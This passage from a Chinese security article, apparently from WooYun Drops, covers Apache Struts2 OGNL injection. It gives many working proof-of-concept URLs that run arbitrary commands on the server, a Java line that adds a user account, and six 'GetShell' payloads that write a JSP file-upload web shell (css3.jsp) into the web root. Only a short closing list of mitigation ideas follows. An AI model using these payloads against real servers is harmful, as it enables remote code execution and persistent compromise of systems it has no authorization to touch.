http://127.0.0.1/Struts2/test.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23a=%40java.lang.Runtime%40getRuntime().exec(%23req.getParameter(%22cmd%22)).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char%5b50000%5d,%23c.read(%23d),%23s3cur1ty=%40org.apache.struts2.ServletActionContext%40getResponse().getWriter(),%23s3cur1ty.println(%23d),%23s3cur1ty.close())(aa)&x[(class.classLoader.jarPath)('aa')]&cmd=cmd%20/c%20netstat%20-an 
```

POC5：

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[1000],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result),%23response.close()}&cmd=cmd%20/c%20set 
```

POC6:

```
http://localhost/struts2-blank/example/HelloWorld.action?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'netstat','-an'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()} 
```

其实在 Java 里面要去执行一个命令的方式都是一样的，简单的静态调用方式

```
java.lang.Runtime.getRuntime().exec("net user selina 123 /add"); 
```

就可以执行任意命令了。Exec 执行后返回的类型是 java.lang.Process。Process 是一个抽象类，`final class ProcessImpl extends Process`也是 Process 的具体实现。而命令执行后返回的 Process 可以通过

```
public OutputStream getOutputStream()
public InputStream getInputStream() 
```

直接输入输出流，拿到 InputStream 之后直接读取就能够获取到命令执行的结果了。而在 Ognl 里面不能够用正常的方式去读取流，而多是用 DataInputStream 的 readFully 或 BufferedReader 的 read 方法全部读取或者按 byte 读取的。因为可能会读取到半个中文字符，所以可能会存在乱码问题，自定义每次要读取的大小就可以了。POC 当中的/c 不是必须的，执行 dir 之类的命令可以加上。

```
Process java.lang.Runtime.exec(String command) throws IOException 
```




#### **GetShell POC：**

poc1:

```
http://127.0.0.1/Struts2/test.action?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean(%22false%22)))&(i1)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(i12)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i13)(('\43xman.getWriter().println(\43req.getServletContext().getRealPath(%22\u005c%22))')(d))&(i2)(('\43fos\75new\40java.io.FileOutputStream(new\40java.lang.StringBuilder(\43req.getRealPath(%22\u005c%22)).append(@java.io.File@separator).append(%22css3.jsp%22).toString())')(d))&(i3)(('\43fos.write(\43req.getParameter(%22p%22).getBytes())')(d))&(i4)(('\43fos.close()')(d))&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

POC2（类型转换漏洞需要把 POC 加在整型参数上）:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close())%2b'%20&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

POC3（需要注意这里也必须是加载一个 String(字符串类型)的参数后面，使用的时候把 URL 里面的两个 foo 替换成目标参数（注意 POC 里面还有个 foo））:

```
http://127.0.0.1/Struts2/hello.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close())(meh%29&z[%28foo%29%28%27meh%27%29]=true&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

POC4:

```
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close()(aa)&x[(class.classLoader.jarPath)('aa')]&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

POC5:

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close()}&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

POC6:

```
http://localhost/Struts2/test.action?redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%23p%3d(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22).replaceAll("\\\\", "/"),new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()}&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

比如 POC4 当中首先就是把 allowStaticMethodAccess 改为 trute 即允许静态方法访问。然后再获取请求对象，从请求对象中获取网站项目的根路径，然后在根目录下新建一个 css3.jsp，而 css3.jsp 的内容同样来自于客户端的请求。POC4 中的 p 就是传入的参数，只要获取 p 就能获取到内容完成文件的写入了。之前已经说过**Java 不是动态的脚本语言，所以没有 eval。不能像 PHP 那样直接用 eval 去动态执行，所以 Java 里面没有真正意义上的一句话木马。菜刀只是提供了一些常用的一句话的功能的具体的实现，所以菜刀的代码会很长，因为这些代码在有 eval 的情况下是可以通过发送请求的形式去构造的，在这里就必须把代码给上传到服务器去编译成执行。**

#### **Struts2:**

关于修补仅提供思路，具体的方法和补丁不提供了。Struts2 默认后缀是 action 或者不写后缀，有的改过代码的可能其他后缀如.htm、.do，那么我们只要拦截这些请求进行过滤就行了。

```
1、  从 CDN 层可以拦截所有 Struts2 的请求过滤 OGNL 执行代码
2、  从 Server 层在请求 Struts2 之前拦截其 Ognl 执行。
3、  在项目层面可以在 struts2 的 filter 加一层拦截
4、  在 Struts2 可以用拦截器拦截
5、  在 Ognl 源码包可以拦截恶意的 Ognl 请求
6、  实在没办法就打补丁
7、  终极解决办法可以考虑使用其他 MVC 框架 
```

**Tags:** [java java 安全](http://drops.wooyun.org/tag/java-java%e5%ae%89%e5%85%a8), [struts](http://drops.wooyun.org/tag/struts)

版权声明：未经授权禁止转载 [园长](http://drops.wooyun.org/author/园长 "由 园长 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [攻击 JavaWeb 应用[6]-程序架构与代码审计](http://drops.wooyun.org/tips/429)
*   [攻击 JavaWeb 应用[4]-SQL 注入[2]](http://drops.wooyun.org/tips/288)
*   [一种新的攻击方法——Java-Web-Expression-Language-Injection](http://drops.wooyun.org/tips/2494)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [攻击 JavaWeb 应用[7]-Server 篇[1]](http://drops.wooyun.org/tips/604)
*   [一次 app 抓包引发的 Android 分析（续）](http://drops.wooyun.org/tips/2986)